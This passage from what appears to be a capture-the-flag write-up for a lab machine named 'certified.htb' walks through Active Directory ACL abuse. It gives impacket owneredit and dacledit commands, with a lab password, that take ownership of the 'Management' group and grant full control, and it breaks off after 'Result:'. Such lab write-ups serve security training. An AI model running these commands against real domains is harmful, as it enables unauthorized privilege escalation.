 > This user has `WriteOwner` permission on the `Management` object (group). This is our `first vector`.
---
> **Note:** `WriteOwner` - This permission allows you to change the `owner` of an object in the **Active Directory** infrastructure.
---

> Having this privilege means that I can change the owner of the `Management` group and assign it to the user `judith.mader`.

> I use the `owneredit` utility from the `impacket` python library set:

```bash

sudo impacket-owneredit -action write -new-owner 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' certified.htb/judith.mader:judith09 -dc-ip 10.10.11.41

```
> Results:

```bash

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!

```
> Re-collecting information via `SharpHound` and displaying changes in `BloodHound`:

![bloodhound_judith_owner](./screenshots/bloodhound_judith_owner.png)

> User `judith.mader` is now the owner of the `Management` group.

> For full control over the object we will grant `full rights` to the user `judith.mader`. I use the `dacledit` utility from the `impacket` python library set:

```bash

sudo impacket-dacledit -action write -rights FullControl -principal 'judith.mader' -target-dn 'CN=Management,CN=Users,DC=certified,DC=htb' certified.htb/judith.mader:judith09 -dc-ip 10.10.11.41

```
> Result:
